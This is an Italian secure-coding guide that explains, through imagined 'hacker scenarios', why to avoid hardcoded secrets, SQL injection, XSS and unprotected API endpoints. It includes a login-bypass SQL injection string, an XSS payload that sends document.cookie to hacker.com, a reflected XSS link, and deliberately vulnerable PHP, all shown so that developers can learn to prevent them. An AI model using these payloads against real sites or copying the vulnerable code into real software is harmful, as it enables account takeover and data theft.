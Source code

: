 # Spiegazione delle Linee Guida di Sicurezza VibeCoding: Perché Insistiamo Tanto?

Questo documento spiega l'importanza di ogni regola nelle "Linee Guida di Sicurezza". Comprendere questo vi aiuterà a vedere il vostro codice dalla "prospettiva di un hacker" e prevenire problemi prima che si verifichino.

---

## ⭐ Regole Fondamentali

### 【Mai hardcodare i segreti】 & 【Utilizzare variabili d'ambiente】 & 【Ignorare file segreti】

**Perché è importante?**

Queste tre regole sono le leggi supreme di sopravvivenza del mondo digitale. Il vostro codice (specialmente quando si usa Git) verrà copiato, condiviso e archiviato in molti posti. Scrivere password, chiavi API e altri "segreti" direttamente nel codice è come tatuarsi la password della cassaforte sulla fronte - chiunque vi veda (veda il codice) può facilmente aprire la vostra cassaforte.

**Scenario dell'Hacker 😈**
> Adoro cercare `password`, `api_key` o `db_connect` su GitHub. Ho trovato il vostro progetto pubblico e in un file chiamato `config.js` ho visto questo codice: `const db_password = 'Password123!';`. Perfetto! Non ho nemmeno bisogno di attaccare il vostro sito - ora posso provare a connettermi direttamente al vostro database con questa password.

**Conseguenze Catastrofiche 💥**

**Controllo completo del servizio.** Gli hacker possono rubare, alterare, eliminare tutti i dati dei vostri utenti, o utilizzare i vostri servizi API a pagamento per attività illegali, con tutte le fatture a vostro carico.

---

## 📥 Gestione Input Utente

### 【Prevenire Attacchi SQL Injection】

**Perché è importante?**

Immaginate il database come un robot che capisce solo il linguaggio SQL. Se concatenate direttamente l'input utente con i vostri comandi, gli utenti hanno l'opportunità di pronunciare i propri "comandi". Le query parametrizzate dicono al robot: "Ascolta, la parte seguente sono **solo dati** - qualunque cosa contenga, non eseguirla come comandi."

**Scenario dell'Hacker 😈**
> Nel campo login del vostro sito, ho inserito `' OR '1'='1' --` come username. Suppongo che la vostra query SQL sia scritta così: `"SELECT * FROM users WHERE username = '" + userInput + "';`. Il mio input l'ha trasformata in `SELECT * FROM users WHERE username = '' OR '1'='1' --';`. `'1'='1'` è sempre vero, quindi ho bypassato la verifica password e ho fatto login con successo nel primo account utente (solitamente l'amministratore).

**Conseguenze Catastrofiche 💥**

Gli attaccanti possono bypassare il login, rubare tutti i dati del database (liste utenti, hash password), o persino eliminare il database.

### 【Prevenire Attacchi Cross-Site Scripting (XSS)】

**Perché è importante?**

Se il vostro sito web è come uno specchio che riflette direttamente il contenuto dell'input utente, allora gli utenti possono incorporare script JavaScript malevoli nel contenuto. Quando altri utenti navigano questo contenuto, lo script malevolo si eseguirà nei loro browser, rubando le loro informazioni. La codifica delle entità HTML converte caratteri speciali negli script malevoli (come `<`, `>`) in testo normale innocuo, rendendoli non eseguibili.

**Scenario dell'Hacker 😈**
> Ho lasciato un commento nella sezione commenti del vostro articolo: `<script>fetch('https://hacker.com/steal?cookie=' + document.cookie)</script>`. Questo testo è stato salvato nel database così com'è. Ora qualsiasi utente che legge questo commento avrà il suo browser che esegue automaticamente questo script, inviando i suoi cookie di login al mio server. Con i cookie, posso impersonare la loro identità per accedere al sito web.

**Metodo di Attacco Avanzato: Come Può il Codice dell'Utente A Rubare i Dati dell'Utente B?**

Molte persone si chiedono: "L'attaccante non ha modificato il mio sito web, quindi come può rubare i dati di altri utenti?" Lasciate che lo spieghi con un esempio completo:

1. **L'attaccante A crea un link malevolo**
   ```
   https://yoursite.com/detail.php?id=1<script>steal()</script>
   ```

2. **L'attaccante inganna la vittima B attraverso social engineering**
   - Email: "Guardate il fantastico lavoro di questo fotografo!"
   - Post sui social media, commenti su forum, ecc.

3. **Cosa succede quando la vittima B clicca sul link?**
   ```php
   // Il vostro codice (vulnerabile)
   <meta property="og:url" content="<?php echo $_SERVER['REQUEST_URI']; ?>">
   
   // Output effettivo al browser di B
   <meta property="og:url" content="/detail.php?id=1<script>steal()</script>">
   ```

4. **Perché possono rubare i dati di B?**
   - B è già autenticato sul vostro sito web
   - Lo script malevolo gira sotto **il vostro dominio**, quindi può:
     - Leggere i cookie di B (credenziali di login)
     - Accedere al localStorage di B
     - Fare richieste a nome di B
     - Modificare il contenuto della pagina (es: form di login falsi)

**Analogia Semplice**
Immaginate che il vostro sito web sia una banca:
- L'attaccante A piazza una "ricevuta di prelievo falsa" (script malevolo) nella hall della banca
- Il cliente B pensa che sia legittimo e inserisce la sua password
- A ottiene la password di B

XSS permette agli attaccanti di piazzare "ricevute di prelievo false" (codice malevolo) nella vostra "hall della banca" (sito web).

Ecco perché dovete usare `htmlspecialchars()` - garantisce che tutto l'input utente sia visualizzato come testo normale, non come codice eseguibile.

**Conseguenze Catastrofiche 💥**

Furto massivo di account utente, fuga di dati personali, siti web infiltrati con contenuti di phishing o script di mining.

---

## 🔐 Permessi e Autenticazione

### 【Protezione Endpoint API】

**Perché è importante?**

Le interfacce frontend (UI) possono nascondere bottoni, ma gli hacker non si fidano mai delle interfacce. Chiamano direttamente le vostre API backend con strumenti (come Postman, curl). Dovete assumere che ogni endpoint API verrà attaccato direttamente, quindi ogni endpoint deve essere una guardia indipendente, verificando autonomamente l'identità e i permessi dei visitatori.

**Scenario dell'Hacker 😈**
> Ho scoperto che per modificare informazioni personali, il frontend invia una richiesta a `/api/user/update`. Anche se non posso vedere i bottoni di modifica di altre persone, suppongo che questa API distingua gli utenti tramite `userId`. Ho provato a inviare una richiesta a `/api/user/update?userId=1` (ID dell'amministratore) con i dati che volevo modificare. Mio Dio, il server non ha verificato se la richiesta proveniva da me personalmente e ha modificato con successo l'email dell'amministratore!

**Conseguenze Catastrofiche 💥**

Utenti ordinari possono alterare dati di altri utenti o persino amministratori, o eseguire permessi che non dovrebbero avere, causando caos sistemico.